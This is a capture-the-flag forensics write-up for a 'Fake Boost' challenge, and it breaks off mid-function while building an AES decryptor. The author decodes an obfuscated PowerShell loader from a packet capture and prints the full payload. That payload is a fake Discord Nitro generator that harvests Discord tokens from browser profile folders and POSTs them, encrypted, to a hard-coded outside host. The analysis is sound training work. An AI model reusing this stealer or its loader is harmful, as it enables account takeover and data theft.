





# Fake Boost

> Difficulty: Easy
> 
> In the shadow of The Fray, a new test called ""Fake Boost"" whispers promises of free Discord Nitro perks. It's a trap, set in a world where nothing comes without a cost. As factions clash and alliances shift, the truth behind Fake Boost could be the key to survival or downfall. Will your faction see through the deception? KORP™ challenges you to discern reality from illusion in this cunning trial.

Solution:

A `capture.pcapng` file was given to us.

Checked the protocol hierachy for an overview and there are HTTP requests.


Filtering for `http.request` gives us two interesting packets



The first one seems to be a PowerShell script, considering `Invoke-Expression` is present.



The second one on the other hand seems to contain an encrypted data.



Decided to use Windows PowerShell ISE to run the script easily.

```PowerShell
$jozeq3n = "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gACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIK0AIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgACIgAiCN8yX8BCIg8yXf91XfxFIv81XfxFIv81Xf91XcBCIv81XfxFIgw3X891Xcx3Xv8FXgw3XcBCffxyXfxFIgw3X89yXf9FXf91Xc9yXf9FffxHIv81XfxHI891XfxFff91XcBCI89Ffgw3XcpQD8BCIf91Xc91XvAyLu8CIv8Ffgw1Xf91Lg8iLgwHIp8FKgwHI8BCffxHI8BCfgACX8BCfgwHI89FKgwHI8BCfgkyXoACffhCIcByXfxFI89CIvwHI8ByLf9FIg8yXfBCI8BCfgwHI8BCfK0Afgw3XvAyLg8CIvACI8BCfvACI8BCIvAyLgACIgwFIfByLf91Jgw3XfBCfgwHIgBiLgwHI8BCYfByLf91JgwHXg8FIv81Xg8Cff9FIvACfgwHI8BCfgwFIfByLcByXg8yXfdCI89FIgwnCNwHI89CIvcyLg8CInAGfgcyL8BCfn8CIvAyJgBCIg81XfByXfByXg8Ffgw3X8BCfcBCI8BCfgw3XfByXfByXgAyXf9FIf91XgAyXf9FIfxHI8BCfgwHIg81XfBCIf91Xg81Xg8FIfxHI8pQD8BCIg8CIcBCIf9FIvwHIg8FIgwHXgAyXfByLgACIgACIgACIgACIgwHIp8FKgwHIcBCfgwHI8BCIgACIgACIgACIgACIgACIgACIgkyXoACIfBCI8BCIgACIgACIgACIgACff91XgACfK0AIf91XgACIf91Xf9FIg81Xf91XgAyXf91XfBCIgACIgACIgACIgACIg8FIfByXgACIfBCIg8FIgACIgACIgACIgACIgACIgACIgACIg8FIf91Xf91XgACIgACIgACIgACIgAyXf91Xf9lCNICI0N3bI1SZ0lmcXpQDK0QfK0QKhRXYExGb1ZGJocmbpJHdTRjNlNXYC9GV6oTX0JXZ252bD5SblR3c5N1W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" ;

$s0yAY2gmHVNFd7QZ = $jozeq3n.ToCharArray() ; 

[array]::Reverse($s0yAY2gmHVNFd7QZ) ; 

-join $s0yAY2gmHVNFd7QZ 2>&1> $null ;

$LOaDcODEoPX3ZoUgP2T6cvl3KEK = [sYSTeM.TeXt.ENcODING]::UTf8.geTSTRiNG([SYSTEm.cOnVeRT]::FRoMBaSe64sTRing("$s0yAY2gmHVNFd7QZ")) ;

#added this one to print in console
Write-Host $LOaDcODEoPX3ZoUgP2T6cvl3KEK;
```



The decoded data is:

```PowerShell
$URL = "http://192.168.116.135:8080/rj1893rj1joijdkajwda"

function Steal {
    param (
        [string]$path
    )

    $tokens = @()

    try {
        Get-ChildItem -Path $path -File -Recurse -Force | ForEach-Object {
            
            try {
                $fileContent = Get-Content -Path $_.FullName -Raw -ErrorAction Stop

                foreach ($regex in @('[\w-]{26}\.[\w-]{6}\.[\w-]{25,110}', 'mfa\.[\w-]{80,95}')) {
                    $tokens += $fileContent | Select-String -Pattern $regex -AllMatches | ForEach-Object {
                        $_.Matches.Value
                    }
                }
            } catch {}
        }
    } catch {}

    return $tokens
}

function GenerateDiscordNitroCodes {
    param (
        [int]$numberOfCodes = 10,
        [int]$codeLength = 16
    )

    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
    $codes = @()

    for ($i = 0; $i -lt $numberOfCodes; $i++) {
        $code = -join (1..$codeLength | ForEach-Object { Get-Random -InputObject $chars.ToCharArray() })
        $codes += $code
    }

    return $codes
}

function Get-DiscordUserInfo {
    [CmdletBinding()]
    Param (
        [Parameter(Mandatory = $true)]
        [string]$Token
    )

    process {
        try {
            $Headers = @{
                "Authorization" = $Token
                "Content-Type" = "application/json"
                "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36"
            }

            $Uri = "https://discord.com/api/v9/users/@me"

            $Response = Invoke-RestMethod -Uri $Uri -Method Get -Headers $Headers
            return $Response
        }
        catch {}
    }
}

function Create-AesManagedObject($key, $IV, $mode) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"

    if ($mode="CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
    elseif ($mode="CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
    elseif ($mode="CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
    elseif ($mode="ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
    elseif ($mode="OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}


    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }
    if ($key) {
        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Encrypt-String($key, $plaintext) {
    $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
    $aesManaged = Create-AesManagedObject $key
    $encryptor = $aesManaged.CreateEncryptor()
    $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
    [byte[]] $fullData = $aesManaged.IV + $encryptedData
    [System.Convert]::ToBase64String($fullData)
}

Write-Host "
______              ______ _                       _   _   _ _ _               _____  _____  _____   ___ 
|  ___|             |  _  (_)                     | | | \ | (_) |             / __  \|  _  |/ __  \ /   |
| |_ _ __ ___  ___  | | | |_ ___  ___ ___  _ __ __| | |  \| |_| |_ _ __ ___   `' / /'| |/' |`' / /'/ /| |
|  _| '__/ _ \/ _ \ | | | | / __|/ __/ _ \| '__/ _` | | . ` | | __| '__/ _ \    / /  |  /| |  / / / /_| |
| | | | |  __/  __/ | |/ /| \__ \ (_| (_) | | | (_| | | |\  | | |_| | | (_) | ./ /___\ |_/ /./ /__\___  |
\_| |_|  \___|\___| |___/ |_|___/\___\___/|_|  \__,_| \_| \_/_|\__|_|  \___/  \_____/ \___/ \_____/   |_/
                                                                                                         
                                                                                                         "
Write-Host "Generating Discord nitro keys! Please be patient..."

$local = $env:LOCALAPPDATA
$roaming = $env:APPDATA
$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"

$paths = @{
    'Google Chrome' = "$local\Google\Chrome\User Data\Default"
    'Brave' = "$local\BraveSoftware\Brave-Browser\User Data\Default\"
    'Opera' = "$roaming\Opera Software\Opera Stable"
    'Firefox' = "$roaming\Mozilla\Firefox\Profiles"
}

$headers = @{
    'Content-Type' = 'application/json'
    'User-Agent' = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36'
}

$allTokens = @()
foreach ($platform in $paths.Keys) {
    $currentPath = $paths[$platform]

    if (-not (Test-Path $currentPath -PathType Container)) {continue}

    $tokens = Steal -path $currentPath
    $allTokens += $tokens
}

$userInfos = @()
foreach ($token in $allTokens) {
    $userInfo = Get-DiscordUserInfo -Token $token
    if ($userInfo) {
        $userDetails = [PSCustomObject]@{
            ID = $userInfo.id
            Email = $userInfo.email
            GlobalName = $userInfo.global_name
            Token = $token
        }
        $userInfos += $userDetails
    }
}

$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
$payload = $userInfos | ConvertTo-Json -Depth 10
$encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload

try {
    $headers = @{
        'Content-Type' = 'text/plain'
        'User-Agent' = 'Mozilla/5.0'
    }
    Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
}
catch {}

Write-Host "Success! Discord Nitro Keys:"
$keys = GenerateDiscordNitroCodes -numberOfCodes 5 -codeLength 16
$keys | ForEach-Object { Write-Output $_ }
```

`$part1` contains the first flag, which is a base64 encoded string: `SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf` -> `HTB{fr33_N17r0G3n_3xp053d!_`

Base on the script, the second interesting packet that we saw earlier is AES encrypted.

The AES key is provided, which is `$AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="` and the IV, which is 16 bytes (128 bits) long because the AES algorithm uses a block size of 128 bits, is prepended to the ciphertext before the data is encoded into a base64 string, which is done via `[byte[]] $fullData = $aesManaged.IV + $encryptedData`

So we can create our decryptor based on those.

```PowerShell
function Create-AesManagedObject($key, $IV, $mode) {
    $aesManaged = New-Object "System.Security.Cryptography.AesManaged"

    if ($mode="CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
    elseif ($mode="CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
    elseif ($mode="CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
    elseif ($mode="ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
    elseif ($mode="OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}


    $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $aesManaged.BlockSize = 128
    $aesManaged.KeySize = 256
    if ($IV) {
        if ($IV.getType().Name -eq "String") {
            $aesManaged.IV = [System.Convert]::FromBase64String($IV)
        }
        else {
            $aesManaged.IV = $IV
        }
    }
    if ($key) {
        if ($key.getType().Name -eq "String") {
            $aesManaged.Key = [System.Convert]::FromBase64String($key)
        }
        else {
            $aesManaged.Key = $key
        }
    }
    $aesManaged
}

function Decrypt-String($key, $encryptedData) {
    $encryptedBytes = [System.Convert]::FromBase64String($encryptedData)
    $IV = $encryptedBytes[0..15]
    $cipherText = $encryptedBytes[16..($encryptedBytes.Length-1)]

    $aesManaged = Create-AesManagedObject $key $IV
    $decryptor = $aesManaged.CreateDecryptor()

